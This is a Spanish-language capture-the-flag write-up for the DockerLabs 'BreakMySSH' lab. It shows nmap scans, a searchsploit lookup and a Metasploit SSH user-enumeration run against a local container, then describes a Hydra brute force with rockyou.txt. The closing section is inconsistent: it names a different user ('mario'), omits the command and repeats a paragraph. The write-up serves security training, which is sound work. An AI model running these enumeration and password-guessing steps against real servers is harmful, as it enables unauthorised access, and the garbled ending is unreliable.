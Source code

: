 # BREAKMYSSH
## INDICACIONES PREVIAS
* Sistema operativo: Kali Linux
* Terminal: ZSH Powerlevel10K
* Utilidad mkt definida en la zshrc para la creación automática de directorios nmap, content y scripts.
* Cat aliseado como bat.
## DESPLIEGUE DE MÁQUINA
1. Descargarla desde la plataforma DockerLabs.
2. En mi caso, yo me creo un directorio con el nombre de la máquina para tenerlo todo más organizado, por lo que mediante el comando mv (`mv ~/Downloads/<máquina.zip> ~/Desktop/Máquinas/Dockerlabs/<máquina>`) la moveré de descargas a la nueva ubicación.
3. Una vez hecho esto, la descomprimiremos mediante unzip <máquina.zip> y se nos creará un ejecutable .tar
4. Por último, la desplegaremos mediante sudo bash auto_deploy.sh <máquina.tar> y se nos proporcionará una IP, en mi caso 172.17.0.2.
## EXPLOTACIÓN Y ESCALADA DE PRIVILEGIOS
Primero comprobaremos la conectividad con la máquina. 
```ruby
> ping -c1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=4.45 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 4.447/4.447/4.447/0.000 ms
```

* c1 (count 1) para indicar que solo queremos mandar un paquete ICMP y después termine de enviar paquetes. 

* De aquí podemos observar que: 
  * Se ha enviado un paquete y se ha recibido de vuelta, por lo que hay conectividad con la máquina.
  * Tenemos un ttl = 64, lo que quiere decir que nos encontramos ante un sistema Linux.

Una vez visto que tenemos conectividad comenzaremos con el escaneo de puertos.  Para ello ejecutaremos:
```ruby
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
* Con -p- escaneamos el rango completo de puertos (65535).
* Con --open añadimos que de esos solo nos interesan los abiertos.
* Con -sS seleccionamos que el tipo de escaneo será de tipo SYN Scan. Este se caracteriza por ser rápido y sigiloso puesto que no se completa el three-way handshake.
  * Según la respuesta del puerto, Nmap deduce su estado:
    * SYN/ACK recibido → el puerto está abierto.
    * RST (Reset) recibido → el puerto está cerrado.
    * Sin respuesta o ICMP error → el puerto está filtrado (por firewall).
  * Si el puerto estaba abierto (SYN/ACK), Nmap no completa la conexión: envía un RST para interrumpir el handshake y no dejar un rastro evidente.
* Con --min-rate 5000 indicamos que queremos un envío de 5000 paquetes por segundo.
* Con -vvv (triple verbose) se muestra por consola la información detallada y actualizada al momento.
* Con -n indicaremos que no queremos resolución DNS, trabajaremos directamente con direcciones IP.
* Con -Pn queremos que no se haga ping al host antes de comenzar el escaneo, asumiendo que está activo.
* Por último, con -oG exportamos la evidencia en un archivo con formato grepeable para facilitar su procesamiento en auditorias.

Para simplificarnos el visionado de los puertos abiertos directamente abriremos el archivo *allPorts*.
```ruby
❯ cat allPorts
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: allPorts
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.95 scan initiated Mon Sep  8 15:38:35 2025 as: /usr/lib/nmap/nmap --privileged -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
   2   │ # Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
   3   │ Host: 172.17.0.2 () Status: Up
   4   │ Host: 172.17.0.2 () Ports: 22/open/tcp//ssh///  Ignored State: closed (65534)
   5   │ # Nmap done at Mon Sep  8 15:38:37 2025 -- 1 IP address (1 host up) scanned in 2.37 seconds
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Una vez localizados los puertos abiertos, continuaremos con el escaneo específico de los mismos para ver que servicios y versiones corren por ellos.
```bash
❯ nmap -p22 -sCV 172.17.0.2 -oN targeted
```

* El parámetro -sCV es una conjunción de los parámetros:
  * -sC: Ejecuta los scripts de Nmap por defecto (Default Scripts) para el host/puerto para detectar vulnerabilidades básicas, información de banners, servicios públicos, etc..
  * -sV: Detecta la versión del servicio que corre en cada puerto abierto.
* Con -oN exportamos la evidencia en un archivo con formato Nmap para dejarlo registrado.

Al igual que antes, para que la visualización de toda la información sea más cómoda, la analizaremos desde el archivo *targeted* que acabamos de generar.
```java
❯ cat targeted -l java
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: targeted
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.95 scan initiated Mon Sep  8 15:39:37 2025 as: /usr/lib/nmap/nmap --privileged -p22 -sCV -oN targeted 172.17.0.2
   2   │ Nmap scan report for 172.17.0.2
   3   │ Host is up (0.00s latency).
   4   │ 
   5   │ PORT   STATE SERVICE VERSION
   6   │ 22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
   7   │ | ssh-hostkey: 
   8   │ |   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
   9   │ |   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
  10   │ |_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
  11   │ MAC Address: 02:42:AC:11:00:02 (Unknown)
  12   │ 
  13   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  14   │ # Nmap done at Mon Sep  8 15:39:37 2025 -- 1 IP address (1 host up) scanned in 0.95 seconds
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Como la versión del servicio OpenSSH es menor o igual a la 7.7 sabemos que puede haber vulnerabilidades conocidas. Esto es algo que acabas aprendiendo de memoria pero, si queremos comprobarlo podemos hacer uso de la herramienta [searchsploit](https://github.com/topics/searchsploit) para ver si presenta o no alguna vulnerabilidad.
```ruby
❯ searchsploit OpenSSH 7.7
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                                                   | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                                                             | linux/remote/45210.py
OpenSSH < 7.7 - User Enumeration (2)                                                                                                                       | linux/remote/45939.py
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
Podemos observar que, efectivamente, hay un par de vulnerabilidades conocidas.  Aquí puedes tomar dos caminos.
1. Utilizar alguna base de datos de CVEs para buscar algún script que poder ejecutar para explotarla.
2. Utilizar metasploit.

Yo decidí utilizar [metasploit](https://github.com/rapid7/metasploit-framework) en este caso añadiendo el parámetro -q para evitar el banner de inicio de la herramienta y así ganar más tiempo.
```ruby
❯ msfconsole -q
msf > use auxiliary/scanner/ssh/ssh_enumusers
[*] Setting default action Malformed Packet - view all 2 actions with the show actions command
msf auxiliary(scanner/ssh/ssh_enumusers) > show options 

Module options (auxiliary/scanner/ssh/ssh_enumusers):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CHECK_FALSE   true             no        Check for false positives (random username)
   DB_ALL_USERS  false            no        Add all users in the current database to the list
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks5, socks5h, http, sapni, socks4
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         22               yes       The target port
   THREADS       1                yes       The number of concurrent threads (max one per host)
   THRESHOLD     10               yes       Amount of seconds needed before a user is considered found (timing attack only)
   USERNAME                       no        Single username to test (username spray)
   USER_FILE                      no        File containing usernames, one per line


Auxiliary action:

   Name              Description
   ----              -----------
   Malformed Packet  Use a malformed packet



View the full module info with the info, or info -d command.

msf auxiliary(scanner/ssh/ssh_enumusers) > set RHOST 172.17.0.2
RHOST => 172.17.0.2
msf auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
USER_FILE => /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
msf auxiliary(scanner/ssh/ssh_enumusers) > run
[*] 172.17.0.2:22 - SSH - Using malformed packet technique
[*] 172.17.0.2:22 - SSH - Checking for false positives
[*] 172.17.0.2:22 - SSH - Starting scan
[+] 172.17.0.2:22 - SSH - User 'mail' found
[+] 172.17.0.2:22 - SSH - User 'root' found
[+] 172.17.0.2:22 - SSH - User 'news' found
[+] 172.17.0.2:22 - SSH - User 'man' found
[+] 172.17.0.2:22 - SSH - User 'bin' found
[+] 172.17.0.2:22 - SSH - User 'games' found
[+] 172.17.0.2:22 - SSH - User 'nobody' found
[+] 172.17.0.2:22 - SSH - User 'lovely' found
[+] 172.17.0.2:22 - SSH - User 'backup' found
[+] 172.17.0.2:22 - SSH - User 'daemon' found
[+] 172.17.0.2:22 - SSH - User 'proxy' found
[+] 172.17.0.2:22 - SSH - User 'list' found
[+] 172.17.0.2:22 - SSH - User 'sys' found
[+] Scanned 1 of 1 hosts (100% complete)
[+] Auxiliary module execution completed
```
Una vez acabada la ejecución podemos observar el posible usuario de sistema, *lovely*.  Para comprobar si estamos en lo cierto, haremos uso de la herramienta de fuerza bruta "Hydra" utilizando *lovely* como nombre de usuario y el diccionario "rockyou.txt" para comprobar contraseñas.

* Con -l seleccionamos el usuario.
* Con -P indicamos un conjunto de contraseñas a probar, en este caso, las recogidas en el diccionario.
* Por último indicamos el servicio y la dirección sobre la que ejecutar el ataque.
Vemos que este ataque ha sido satisfactorio y hemos encontrado una contraseña válida para el usuario *mario*.
Ahora que ya tenemos usuario y contraseña accederemos al servicio SSH para comenzar con el escalado de privilegios.
Una vez acabada la ejecución podemos observar el posible usuario de sistema, *lovely*.  Para comprobar si estamos en lo cierto, haremos uso de la herramienta de fuerza bruta [Hydra](https://github.com/vanhauser-thc/thc-hydra) utilizando *lovely* como nombre de usuario y el diccionario [rockyou.txt](https://github.com/topics/rockyou-wordlist) para comprobar contraseñas.


